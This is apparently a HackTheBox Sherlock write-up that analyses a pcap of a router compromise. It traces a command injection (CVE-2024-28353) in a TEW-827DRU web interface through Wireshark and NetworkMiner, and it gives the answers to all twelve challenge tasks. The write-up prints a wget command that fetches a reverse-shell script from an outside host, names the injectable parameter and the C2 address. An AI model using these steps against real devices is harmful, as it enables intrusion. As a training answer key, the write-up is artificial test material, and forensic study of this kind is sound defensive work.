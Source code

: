# [HackTheBox Sherlocks - Trent](https://app.hackthebox.com/sherlocks/Trent)
Created: 17/02/2025 13:15
Last Updated: 19/02/2025 13:14
* * *
![ca4f203679a302944eaea19f43b49ca6.png](/_resources/ca4f203679a302944eaea19f43b49ca6.png)

**Scenario:**
The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

* * *
>Task 1: From what IP address did the attacker initially launched their activity?

We only have 1 pcap file to work with so after opened it on Wireshark, I realized that there are a lot of HTTP requests which mean the attacker might communicated with router vie web interface

![500fe7e8d09a47a878d1225b104a7eed.png](/_resources/500fe7e8d09a47a878d1225b104a7eed.png)

When the attacker sent anything to server, such as credential to login, file upload, command via webshell, the HTTP request method that used to carry out these activities are POST request

So I filtered with `http.request.method == POST` to only have HTTP POST requests then we could see total of 47 HTTP POST request but almost half of them are localhost sending to localhost (self) and from Network 101, we know that an IP address end with 1 is a gateway or a router in this case which make another IP address an IP address within the network and we could suspect it to be an IP address of the attacker.

![09d7721b0bc45ac5bb3ef222e6c4569e.png](/_resources/09d7721b0bc45ac5bb3ef222e6c4569e.png)

By trying to understand what happened, I kept inspecting each POST request which I finally found that potential command injection on the router so our hypothesis is confirmed at this point.

```
192.168.10.2
```

>Task 2: What is the model name of the compromised router?

![b993027582c0015846dfab2ce65c8355.png](/_resources/b993027582c0015846dfab2ce65c8355.png)

By searching for "model" string, we can see that there is model name of the router on defined on the web interface 

```
TEW-827DRU
```

>Task 3: How many failed login attempts did the attacker try before successfully logging into the router?

![4461dd4dea1c4dec15e44097dfe7b73c.png](/_resources/4461dd4dea1c4dec15e44097dfe7b73c.png)

Now after filter out localhost with `http.request.method == POST && ip.addr == 192.168.10.2` then by inspecting first 3 HTTP POST requests (/apply_sec.cgi), we could see that there are 2 attempts to login into the router before successfully logged with with admin user without a password.

```
2
```

>Task 4: At what UTC time did the attacker successfully log into the routers web admin interface?

![20b0143cb0735b0db632da044bcee9e0.png](/_resources/20b0143cb0735b0db632da044bcee9e0.png)
```
2024-05-01 15:53:27
```

>Task 5: How many characters long was the password used to log in successfully?	
```
0
```

>Task 6: What is the current firmware version installed on the compromised router?

![d40b4df9d4c4dd44a926a524fa99f5cf.png](/_resources/d40b4df9d4c4dd44a926a524fa99f5cf.png)

We can filter for "fw" or "version" string which will lead us that the js file that will get router information which the firmware version will be stored in `fw_ver`

![654a9cdd77bf7ab381349d7951890d9b.png](/_resources/654a9cdd77bf7ab381349d7951890d9b.png)

Now we know that this router shorten the string "firmware" to "fw" so we can continue to search with "fw" then we will see that current firmware version installed on the router right here.

```
2.10
```

>Task 7: Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?

![e1833f6e9cf7eff9d1f2da83e9a60066.png](/_resources/e1833f6e9cf7eff9d1f2da83e9a60066.png)

From the task 1, we know that there was an os command injection attempts on `usbapps.config.smb_admin_name` parameter 

![1ff0c01390077165d27cef040db6a4c2.png](/_resources/1ff0c01390077165d27cef040db6a4c2.png)

We can also confirm the other POST command with different payload, on this case we can see that the attacker tried to download bash script from the attacker IP address on port 8000.

![cea1b390d44eb0ec8e818ce203a6d730.png](/_resources/cea1b390d44eb0ec8e818ce203a6d730.png)

I made life easier by opened this pcap file on NetworkMiner than by filtered with common strings in os command injection payload we found then we will see that the attacker tried to download this bash script many times and once it got downloaded then the attacker used bash to execute it  

```
usbapps.config.smb_admin_name
```

>Task 8: What is the CVE number associated with the vulnerability that was exploited in this attack?

![93bedc9109b0ed3ed11cfb164e3573f0.png](/_resources/93bedc9109b0ed3ed11cfb164e3573f0.png)

We have to approach here, by filtering for router model and firmware or by filtering for vulnerable parameter which will lead to one CVE which is [CVE-2024-28353 command injection vulnerability](https://warp-desk-89d.notion.site/TEW-827DRU-5c40fb20572148f0b00f329d69273791).


```
CVE-2024-28353
```

>Task 9: What was the first command the attacker executed by exploiting the vulnerability?

![155f9c86c4056ffb8177e32dab26bb5c.png](/_resources/155f9c86c4056ffb8177e32dab26bb5c.png)
We know that the first command that the attacker tested and executed is `whoami`

```
whoami
```

>Task 10: What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?

![e100d8842a11a63f3855f0dd20fc9cfe.png](/_resources/e100d8842a11a63f3855f0dd20fc9cfe.png)

As we can see that the attacker tried to download file from both external host and internal host 

```
wget http://35.159.25.253:8000/a1l4m.sh
```

>Task 11: Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?	


![a639b1ecacb98acad8491281499ff919.png](/_resources/a639b1ecacb98acad8491281499ff919.png)

We can see that there is a little different on the command to get bash script from an external host right here so i suspected that this must be the typo made by the attacker.

![b7cf3c2119791c3bced97427a05df08b.png](/_resources/b7cf3c2119791c3bced97427a05df08b.png)

Lets go back to Wireshark, we can see the same payload on packet number 51885 so lets follow the stream of this request.

![b8b52ac1f3ee6e983d663dd7bfbbf1ee.png](/_resources/b8b52ac1f3ee6e983d663dd7bfbbf1ee.png)

Look at the HTTP response, then we can see the error message right here.

```
Access to this resource is forbidden
```

>Task 12: What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)

![1fbe192ee598b128f5bd04c728aaea91.png](/_resources/1fbe192ee598b128f5bd04c728aaea91.png)

We have 2 approaches on this question, since we know that the file was requested via HTTP then we could use Wireshark to export HTTP object right here.

![28b339c6ffda65355d93fe89294d7abd.png](/_resources/28b339c6ffda65355d93fe89294d7abd.png)

But i don't want to export it so I clicked the object which lead me to packet number 74345 and then I followed HTTP/TCP stream and inspect the response from the attacker machine which is the content of bash script and as we can see on the image that this is reverse shell command to connect to an external IP address on port 41143

![ad08a1ca00b3ca909ea19789410d004c.png](/_resources/ad08a1ca00b3ca909ea19789410d004c.png)

Take an extra step to filter on this port but evidently, there is no any packets from this filter so we can assume that the attacker failed to establish reverse shell connection from the script.

![3bff12aa938811e26589239ee37042c7.png](/_resources/3bff12aa938811e26589239ee37042c7.png)

Now, we came to the second approach that is using NetworkMiner and it will assemble files within pcap automatically upon opening the pcap file so if we opened the file from NetworkMiner then we will also have the same script we found earlier as well.

```
35.159.25.253:41143
```

![14d2784a332c149451fb30174a4677e6.png](/_resources/14d2784a332c149451fb30174a4677e6.png)
https://labs.hackthebox.com/achievement/sherlock/1438364/841
* * *
